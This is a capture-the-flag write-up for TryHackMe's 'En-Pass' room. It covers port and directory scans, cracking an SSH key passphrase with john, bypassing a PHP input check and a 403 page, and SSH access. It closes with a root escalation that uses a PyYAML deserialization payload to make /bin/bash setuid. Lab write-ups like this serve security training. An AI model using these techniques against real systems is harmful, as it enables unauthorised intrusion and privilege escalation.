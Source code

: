 # Write-up for en-pass room TryHackMe
---
## Nmap port scanning
```bash
sudo nmap -sC -sV -p 22,8001 -oN port-scan 10.10.37.185
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-03 21:42 EDT
Nmap scan report for 10.10.37.185
Host is up (0.20s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:bf:6b:1e:93:71:7c:99:04:59:d3:8d:81:04:af:46 (RSA)
|   256 40:fd:0c:fc:0b:a8:f5:2d:b1:2e:34:81:e5:c7:a5:91 (ECDSA)
|_  256 7b:39:97:f0:6c:8a:ba:38:5f:48:7b:cc:da:72:a8:44 (ED25519)
8001/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: En-Pass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.34 seconds
```
&nbsp;
## Directory bruteforcing
Recursively bruteforce the directory to find the */key* directory containing private key
```bash
ffuf -u http://10.10.37.185:8001/web/resources/infoseek/configure/FUZZ -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.1
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.37.185:8001/web/resources/infoseek/configure/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/raft-small-words.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response status: 403
________________________________________________

key                     [Status: 200, Size: 1766, Words: 9, Lines: 31]
```
&nbsp;
##### Here's the image
![[20210404084128.png]]
&nbsp;
 Copy the key to file and crack it using john found the password being *7¡Vamos!*

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 1 candidate left, minimum 2 needed for performance.
0g 0:00:00:06 DONE (2021-04-03 21:59) 0g/s 2328Kp/s 2328Kc/s 2328KC/s *7¡Vamos!
Session completed
```
&nbsp;
Doing a directory bruteforce and find */reg.php* and */zip*
```bash
gobuster dir -u http://10.10.37.185:8001/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.37.185:8001/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
2021/04/03 22:11:35 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 2563]
/web                  (Status: 301) [Size: 317] [--> http://10.10.37.185:8001/web/]
/reg.php              (Status: 200) [Size: 2417]                                   
/403.php              (Status: 403) [Size: 1123]                                   
/zip                  (Status: 301) [Size: 317] [--> http://10.10.37.185:8001/zip/]
```
&nbsp;
This is how */reg.php* looks like
![[20210404094429.png]]
&nbsp;
Upon inspecting the source, found PHP code.
```php
if($_SERVER["REQUEST_METHOD"] == "POST"){
   $title = $_POST["title"];
   if (!preg_match('/[a-zA-Z0-9]/i' , $title )){
          
          $val = explode(",",$title);

          $sum = 0;
          
          for($i = 0 ; $i < 9; $i++){

                if ( (strlen($val[0]) == 2) and (strlen($val[8]) ==  3 ))  {

                    if ( $val[5] !=$val[8]  and $val[3]!=$val[7] ) 
            
                        $sum = $sum+ (bool)$val[$i]."<br>"; 
                }
          
          
          }

          if ( ($sum) == 9 ){
            

              echo $result;//do not worry you'll get what you need.
              echo " Congo You Got It !! Nice ";

        
            
            }
            

                    else{

                      echo "  Try Try!!";

                
                    }
          }
        
          else{

            echo "  Try Again!! ";

      
          }     
 
  }

```
Let's analyze the source code!!!
- The input must not be characters from a-z, A-Z, 0-9
- The input contains 9 words separated by a comma ','
- The first word has to be 2 characters and the last word is 3 characters long
- The sixth word can not be the same as the last word and the fourth word must not be the same as the eighth word
- If you do it right, it will print the password

&nbsp;
This is the input i constructed *!!,!,!,####,!,@@@@,!,\*\*\*,???*
and the password is *cimihan_are_you_here?*
![[20210404095503.png]]
&nbsp;
Gobuster also found a 403.php which i bypassed it with *'..;'*. Upon bypassing it, it reveals another user called *'imsau'*
![[20210404102407.png]]
&nbsp;
Log in via ssh with username imsau and password we obtained
```bash
ssh -i id_rsa imsau@10.10.37.185
Enter passphrase for key 'id_rsa': 
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-201-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

1 package can be updated.
1 of these updates is a security update.
To see these additional updates run: apt list --upgradable


$ bash
imsau@enpass:~$ 
```
&nbsp;
Manual enumeration found a python script located at /opt/scripts called **file.py**
```bash
imsau@enpass:/opt/scripts$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Jan 31 19:40 .
drwxr-xr-x 3 root root 4096 Jan 31 16:34 ..
-r-xr-xr-x 1 root root  250 Jan 31 19:40 file.py
imsau@enpass:/opt/scripts$ cat file.py 
#!/usr/bin/python
import yaml


class Execute():
        def __init__(self,file_name ="/tmp/file.yml"):
                self.file_name = file_name
                self.read_file = open(file_name ,"r")

        def run(self):
                return self.read_file.read()

data  = yaml.load(Execute().run())
imsau@enpass:/opt/scripts$ 
```
&nbsp;
As the script is owned by root and it executes the /tmp/file.yml, we can create the file called *file.yml* to escalate the privilege to root.
```bash
imsau@enpass:/opt/scripts$ nano /tmp/file.yml
imsau@enpass:/opt/scripts$ cat /tmp/file.yml 
!!python/object/apply:os.system ["chmod +s /bin/bash"]

imsau@enpass:/opt/scripts$ 
```
&nbsp;
Then we can execute */bin/bash* as setuid with *-p* option and will give us a root privilege on the machine
```bash
imsau@enpass:/opt/scripts$ /bin/bash -p
bash-4.3# whoami
root
bash-4.3# 
```